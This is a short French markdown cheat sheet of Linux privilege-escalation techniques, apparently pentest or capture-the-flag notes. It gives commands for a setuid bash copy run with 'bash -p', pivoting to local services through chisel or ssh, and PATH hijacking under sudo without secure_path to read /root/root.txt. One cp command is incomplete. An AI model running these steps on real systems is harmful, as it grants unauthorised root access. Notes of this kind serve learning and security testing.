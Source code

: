 # Privesc

> Exemple de tâches à effectuer pour obtenir une élévation de privilèges

### 


### 2. Techniques

- **Rendre le binaire bash setuid :**

  ```bash
  $ cp /bin/bash
  $ chmod +s bash
  # Un binaire setuid modifie notre binaire en préservant les informations (le setuid) mais modifie le propriétaire (e.g. cp --preserve-mode)
  # Une fois le propriétaire modifié en root
  # Il ne faut pas oublier d'utiliser le "-p" car par défaut, les exécutables shell ignorent le bit setuid. 
  $ bash -p # -p permet de garder l'effective user
  ```

- Regarder les services tournants en local sur la machine cible et faire une proxychain (voir chisel ou ssh) pour y accéder en local depuis notre machine hôte

- Pas de variable `secure_path` lorsque l'on fait un `sudo -l` : overwrite la commande si le chemin passé n'est pas absolu :

  ```bash
  $ echo -n "cat /root/root.txt" > /tmp/<COMMANDE_A_MODIFIER>
  $ chmod 777 /tmp/<COMMANDE_A_MODIFIER>
  $ export PATH=/tmp:$PATH 
  ```



## References

[1]: https://www.youtube.com/watch?v=Yp4oxoQIBAM